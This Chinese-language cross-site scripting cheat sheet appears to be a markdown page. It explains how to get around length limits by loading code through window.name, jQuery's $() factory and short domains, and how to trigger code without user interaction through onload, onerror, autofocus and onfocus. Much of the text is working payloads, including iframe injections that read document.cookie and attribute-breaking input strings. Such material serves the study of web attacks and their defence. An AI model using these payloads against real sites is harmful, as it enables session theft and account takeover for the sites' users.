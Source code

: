 ## 长度限制的bypass
1. window.name跨域
```txt
使用iframe跨域的话,自身的payload长度就可以得到极大的缩短
因为你唯一需要的就是执行window.name里的代码
有在特定的场景下,window.name由于window是一个全局对象,可以直接省略window
而是用name去访问我们的window.name
而window.name能够承载的长度很大,足够我们绕过
因此我们的只需要eval(name)就可以了
使用如下payload
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=eval(window.name)//" name="alert(document.cookie)"
width="100%" height="100%" />
成功执行
```
2. jquery工厂函数
```txt
jquery的工厂函数$()需要传入的是一个完整的html标签
它会自动的构造起里面的标签,并且执行里面的代码
如果我们使用了$(location.hash)就缩短了非常多的长度
做一个小小的测试
使用的payload是这样的
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=$(window.name)//" name="<img src='#'
onerror=alert(document.cookie) />" width="100%" height="100%" />
也能够成功的执行了代码,而且进一步缩短了payload的长度
```

3. 使用短域名
```txt
曾经wooyun上的一篇文章有提到过这个问题,在payload长度相同的情况下,谁的域名越短
谁就拥有了先天的优势。
比如一些物理单位符号,可以被合法的注册,而且会被自动解析到对应的英文域名
包括之后出现的一些韩语域名,emoji域名,也许都可以用来缩短我们的payload长度
```

## 构造无需交互的payload&绕过事件过滤
1. onerror/onload 事件
```txt
两个事件是最容易触发,而且无需交互的
比如如下的payload
<svg/onload=alert(1)>
<img src="#" onerror=alert(1) />
但是这两个事件太常见了,非常容易就遭到了过滤
而且也有相当一部分标签不支持onerror等事件
```

2. onfocus与autofocus
```txt
对于<input>等标签来说,onfocus事件使他们在获得焦点时
而autofocus则会让他们自动获得焦点
因此,很容易利用这个构造出如下的payload,使他们自动获得焦点并触发事件执行js
1"%20autofocus%20onfocus=alert(1)//
完整的html标签是这样的
<input value="1" autofocus onfocus=alert(1)// >
```
